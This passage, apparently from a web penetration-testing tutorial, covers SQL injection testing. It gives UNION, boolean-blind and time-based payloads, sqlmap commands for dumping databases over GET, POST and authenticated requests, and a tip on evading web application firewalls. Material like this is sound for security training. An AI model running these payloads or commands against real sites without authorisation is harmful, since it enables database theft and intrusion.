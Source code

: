 6. **Testing for SQL Injection:**  
— **Direct Error-Based SQLi:**  
— Test parameters by injecting SQL payloads such as `’, “`, ` — `, `;`, and `/*`.  
— Example payload for testing:  
``` bash
1' UNION SELECT 1, table_name FROM information_schema.tables —  
```  
— If you receive any information, use SQLMap to extract more data.  
— **Blind SQL Injection Based on Boolean:**  
— Test the condition by altering parameter values:  
```  bash
AND 1=1 —  
```  
```  
AND 1=2 —  
```  
— If the response changes, the site may be vulnerable.  
— **Blind SQL Injection Based on Time:**  
— Test with time-based payloads:

```  bash
OR IF(1=1, SLEEP(5), 0) —  
```  
— If the site response is delayed by 5 seconds, it is likely vulnerable.

7. **Using SQLMap for Database Extraction:**  
— For GET requests:  
```  bash
sqlmap -u [https://test.il](https://test.il) — dbs — threads=10  
```  
— For POST requests:  
```  bash
sqlmap -u [https://test.il](https://test.il) — data=”parametername=value” — dbs  
```

(ask copilot what "parametername means by the POST request)

— For authenticated requests:  
``` bash 
sqlmap -u “[https://test.il](https://test.il)" — data=”parametername=value” — cookie=”value” — dbs  
```  
— For multipart requests (copy the full request into a file named `request.txt`):  
``` shell 
sqlmap -r request.txt — dbs — threads=10  
```

- Utilize various SQLMap options to bypass WAFs (Web Application Firewalls) and retry with stronger payloads and encoding.

— 

![](https://miro.medium.com/v2/resize:fit:875/0*Zca2zPL9CuUaqaVf)

---

### LostFuzzer: Passive URL Fuzzing & Nuclei DAST scanner
